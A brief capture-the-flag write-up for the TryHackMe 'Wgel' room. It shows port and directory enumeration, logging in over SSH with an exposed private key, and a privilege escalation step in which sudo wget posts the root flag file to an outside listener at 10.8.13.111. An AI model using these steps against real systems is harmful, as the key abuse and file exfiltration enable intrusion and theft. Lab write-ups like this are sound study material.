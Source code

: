 # [Challenge](https://tryhackme.com/room/wgelctf)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 --min-rate=5000 wgel`)
		- 22 -> ssh
		- 80 -> http (Apache 2.4.18)
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://wgel -x .html,.txt,.js,.php -t 300`)
		- ### DIRECTORIES
			- `/sitemap`
				- `/.ssh`

- # EXPLOITATION
	- `wgel/` -> `<!-- Jessie don't forget to udate the webiste -->`
	- We have the `id_rsa` in `wgel/sitemap/.ssh/id_rsa`! Let's use `john`:
		- `id_rsa has no password!`
			- Let's connect to SSH as `jessie`

- # PRIVILEGE ESCALATION
	- `sudo -l` -> `(root) NOPASSWD: /usr/bin/wget`
		- We can run `wget` as root!
			- `nc -lvnp` -> `sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.13.111:4444`
				- We got the flag!
